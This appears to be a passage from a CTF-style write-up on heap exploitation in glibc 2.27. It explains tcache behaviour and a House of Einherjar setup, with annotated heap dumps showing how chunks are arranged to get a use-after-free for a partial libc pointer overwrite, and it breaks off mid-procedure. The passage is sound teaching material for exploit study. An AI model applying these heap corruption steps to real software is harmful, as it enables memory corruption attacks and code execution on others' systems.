 ### Exploit

#### Getting UAF on a tcache chunk, that already has a libc pointer to do a partial overwrite.
We use House of Einhejar techniques for this part of the exploit a get a chunk such that it is present in the tcache bin and the unsorted bin. 

With tcache enabled in glibc 2.27, all chunks of size < 0x410 are put into tcache bins for performance improvements. These are some things to note about tcache chunks:
* There is a tcache bin for each size which can hold 7 chunks in a singly linked list. Furthur freed chunks are put into fastbins as done in the previous glibc versions.
* Tcache chunks, like fastbin chunks are not merged with previously freed chunks when the prev\_inuse bit is clear. 
* There are no security checks done when a chunk is allocated from the tcache bin. Chunks get allocated from a particular bin if the size field is wrong or even if null.

Keeping all these things in mind let's move on.
I allocated a few chunks in the below manner. Each allocation has it purpose. 

```
      +------------------------------------------------------------+
      | 0x555555757250:	0x0000000000000000	0x0000000000000501 |
ptr_0 + 0x555555757260:	0x6161616161616161	0x0000000000000000 +---> To be merged with ptr_4 
      | 0x555555757270:	0x0000000000000000	0x0000000000000000 |
      +------------------------------------------------------------+
      | 0x555555757750:	0x0000000000000000	0x0000000000000071 |
ptr_1 + 0x555555757760:	0x6262626262626262	0x0000000000000000 +---> UAF after House of Einhejar
      | 0x555555757770:	0x0000000000000000	0x0000000000000000 |
      +------------------------------------------------------------+
      | 0x5555557577c0:	0x0000000000000000	0x0000000000000041 |
ptr_2 + 0x5555557577d0:	0x6161616161616161	0x0000000000000000 +---> Intermediate chunk to get 2 UAFs
      | 0x5555557577e0:	0x0000000000000000	0x0000000000000000 |
      +------------------------------------------------------------+
      | 0x555555757800:	0x0000000000000000	0x0000000000000021 |
ptr_3|  0x555555757810:	0x6161616161616161	0x0000000000000000 +---> Overwrite ptr_4->size 
      | 0x555555757820:	0x0000000000000000	0x0000000000000501 |
      +------------------------------------------------------------+
      | 0x555555757820:	0x0000000000000000	0x0000000000000501 |
ptr_4 + 0x555555757830:	0x6262626262626262	0x0000000000000000 +---> Einhejar on this chunk
      | 0x555555757840:	0x0000000000000000	0x0000000000000000 |
      +------------------------------------------------------------+
      | 0x555555757d20:	0x0000000000000000	0x0000000000000021 |
ptr_5 + 0x555555757d30:	0x6161616161616161	0x0000000000000000 +---> Prevent merge with top chunk
      | 0x555555757d40:	0x0000000000000000	0x00000000000202e1 |
      +------------------------------------------------------------+
```
Note that we clear the prev\_inuse bit of next chunk only when the size is a multiple of 0x8. 
First step is to free and allocate the `ptr_3` chunk to clear the prev\_inuse bit and set the prev\_size of the `ptr_4` chunk.

```bash
      +------------------------------------------------------------+
      | 0x555555757800:	0x0000000000000000	0x0000000000000021 |
ptr_3 + 0x555555757810:	0x6161616161616161	0x0000000000000000 +---> Used to overwrite the ptr_4->size
      | 0x555555757820:	0x0000000000000000	0x0000000000000501 |
      +------------------------------------------------------------+
      | 0x555555757820:	0x00000000000005d0	0x0000000000000500 |
ptr_4 + 0x555555757830:	0x6262626262626262	0x0000000000000000 +---> ptr_4 - ptr_4->prev_size = ptr_1
      | 0x555555757840:	0x0000000000000000	0x0000000000000000 |
      +------------------------------------------------------------+
```
* Free `ptr_0`, this chunk will now be in the unsorted bin.